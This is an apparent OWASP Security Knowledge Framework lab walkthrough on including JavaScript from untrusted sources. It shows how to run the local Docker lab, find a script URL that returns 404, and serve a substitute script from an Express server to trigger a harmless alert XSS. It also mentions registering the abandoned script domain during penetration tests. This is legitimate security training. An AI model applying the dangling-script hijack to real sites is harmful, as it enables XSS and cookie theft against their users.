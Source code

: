 # Include Files From Untrusted Sources (JS)

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:js-untrusted-sources-js
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:js-untrusted-sources-js
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

## Reconnaissance

#### Step1

When including third-party functionality, such as a web widget, library, or other source of functionality, the software must effectively trust that functionality. Without sufficient protection mechanisms, the functionality could be malicious in nature (either by coming from an untrusted source, being spoofed, or being modified in transit from a trusted source). The functionality might also contain its own weaknesses, or grant access to additional functionality and state information that should be kept private to the base system, such as system state information, sensitive application data, or the DOM of a web application.

This might lead to many different consequences depending on the included functionality, but some examples include injection of malware, information exposure by granting excessive privileges or permissions to the untrusted functionality, DOM-based XSS vulnerabilities, stealing user's cookies, or open redirect to malware

First, let's check the application to see if there are any sources being loaded in the app that return a 404.

![](../../.gitbook/assets/nodejs/Untrusted-sources/1.png)

When inspecting the network tab we see that the application fails to load a JS file to the URL

```
https://localhost:8081/script-provider/javascript.js
```

_note: in a penetration test we would now see if the domain that is used to grab the js source file from is free for us to register_

## Exploitation

#### Step1

Now, in order to leverage a successfull XSS attack we need to set up our own local server on port 8081
that serves the our malicious javascript. You could achieve this in many diferent ways, let's use nodeJs this time:

```javascript
const express = require("express");
const app = express();

app.use(express.static(__dirname));
app.use(express.urlencoded({ extended: true }));

app.get("/:path", (req, res) => {
  res.sendFile("/script_provider/" + req.params.path);
});

const port = process.env.PORT || 8081;

app.listen(port, () => console.log(`Listening on port ${port}...!!!`));
```

#### Step2

We ofcourse also need to set the right path where to serve the file from:

```text
./script_provider/javascript.js
```

#### Step3

The content of the JS file that we use to deliver the malicious XSS from looks no more basic than
this:

```text
alert("evil payload");
```

#### Step4

Now it is time to start our web server.

```text
npm install express
node script_provider.js
```

#### Step5

We visit the target application where we now find our 'alert' that we coded in our javascript.js file

![](../../.gitbook/assets/nodejs/Untrusted-sources/2.png)

## Additional sources

{% embed url="https://book.hacktricks.xyz/pentesting-web/xssi-cross-site-script-inclusion" %}
